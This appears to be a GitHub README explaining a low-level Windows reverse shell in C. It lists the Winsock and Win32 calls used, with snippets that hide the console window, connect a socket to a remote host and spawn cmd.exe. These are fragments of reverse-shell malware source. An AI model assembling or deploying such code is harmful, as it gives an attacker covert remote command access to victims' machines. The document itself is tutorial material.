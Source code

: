 ## About this simple low level reverse shell
#### introduction
the main thing in exploit developement, malware analyse or any other topic is how to deal with remote servers or machines, so that you have to be familiar with the SOCKETs.

socket is a software structure within a network node of a computer network that serves as an endpoint for sending and receiving data across the network

recognize that we talk about the low level language like c/c++. so first of all you have to install all prerequired stuff, an IDE, a compiler and a debugger which you can find them [here](https://code.visualstudio.com/docs/languages/cpp#_install-a-compiler)

#### The functions I've used
1. [ShowWindow](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjh_t6mjP35AhXFglwKHcEcBgwQFnoECAQQAw&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fwinuser%2Fnf-winuser-showwindow&usg=AOvVaw0m88U6DTLNGTpAJUXh7Wlp)
```c
ShowWindow( GetConsoleWindow(), SW_HIDE ); // hide the console of the current process from the user interface and run it in the background
```
2. [WSAStartup](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwihhcTUjP35AhXeQ0EAHTIQAhUQFnoECAYQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fwinsock%2Fnf-winsock-wsastartup&usg=AOvVaw2dl7R4ZunjRdgaij7U1u_-)
```c
WSAStartup(MAKEWORD(2, 2), &wsa); // initialize winsock
```
3. [WSASocket](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjrgOvhjP35AhV-QUEAHQy7C2cQFnoECAYQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fwinsock2%2Fnf-winsock2-wsasocketa&usg=AOvVaw1w00qrcKKbcugzayOhuo_o)
```c
shell = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int) NULL, (unsigned int) NULL);
```
4. [WSAConnect](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiJhcfzjP35AhWOS0EAHQbQDc4QFnoECAIQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fwinsock2%2Fnf-winsock2-wsaconnect&usg=AOvVaw11903FO_fI_g-PltsdS2hX)
```c
connection = WSAConnect(shell, (SOCKADDR*)&shell_addr, sizeof(shell_addr), NULL, NULL, NULL, NULL);
```
5. [CreateProcess](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjn15SAjf35AhWSmFwKHY2SDdwQFnoECAMQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fprocessthreadsapi%2Fnf-processthreadsapi-createprocessa&usg=AOvVaw3muVjZWA6DzAcUd32dbaSO)
```c
CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi); // create proccess that spawn command prompt (shell)
```
6. [WaitForSingleObject](https://www.google.com/url?sa=t&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiKie6Tjf35AhXlQkEAHSMXDFwQFnoECAgQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fsynchapi%2Fnf-synchapi-waitforsingleobject&usg=AOvVaw1QxSMBrJFbVO2ai8p37N79)
```c
WaitForSingleObject(pi.hProcess, INFINITE); \\ wait the process until it ends and close the soxket
```
7. [CloseHandle](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwib3Pahjf35AhWbi1wKHRA2AqMQFnoECAkQAQ&url=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fapi%2Fhandleapi%2Fnf-handleapi-closehandle&usg=AOvVaw0WzqOSJjwQS5kHDz5cTv71)
```c
CloseHandle(pi.hProcess);
```